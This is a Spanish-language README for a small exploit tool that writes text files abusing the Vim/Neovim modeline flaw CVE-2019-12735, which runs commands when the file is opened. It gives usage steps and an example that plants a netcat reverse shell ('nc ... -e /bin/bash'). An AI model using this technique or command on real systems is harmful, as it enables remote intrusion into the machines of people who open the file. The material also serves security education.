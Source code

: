 # modeline-vim
_Script con fines educativos que explota la vulnerabilidad de vim._

## Introducción.
_El script aprovecha la vulnerabilidad([CVE-2019-12735](#referencias)) de Vim < 8.1,1365 y Neovim < 0.3.6 que permite ejecutar código dentro de un archivo de texto por medio de modelines al momento de abrirlo. Dicho script fue desarrollado con fines educativos y queda bajo responsabilidad de quien lo usa._

## Archivos.
* **modeline.sh**_, script shell que recibe como parámetro el comando a inyectar en el archivo de texto._
* **modeline.rb**_, programa en ruby que solicita el nombre del archivo, texto a ingresar en el archivo de texto y comando a inyectar._

## Instrucciones.
_Se recomienda que se abra con el editor emacs o algún otro editor de texto que sea vim, ya que se ejecuta la vulnerabilidad y distorsiona el archivo :smile:. En caso de que se desea usar vim se debe de desabilitar el modelines (**:set nomodeline**)._

_modeline.sh requiere solamente de un parámetro, el cual tiene que ser un comando con sus respectivos parámetros(opcional)._
```
chmod 700 modeline.sh
modeline.sh _comando_ > archivoTexto.
```
### Ejemplo.
_Se utilizará el comando nc para realizar un shell inverso._
```
modeline.sh nc 127.0.0.1 8888 -e /bin/bash > datos.txt
```
## Referencias.
[PoC](https://github.com/numirias/security/blob/master/doc/2019-06-04_ace-vim-neovim.md#summary)

[CVE-2019-12735](https://nvd.nist.gov/vuln/detail/CVE-2019-12735)

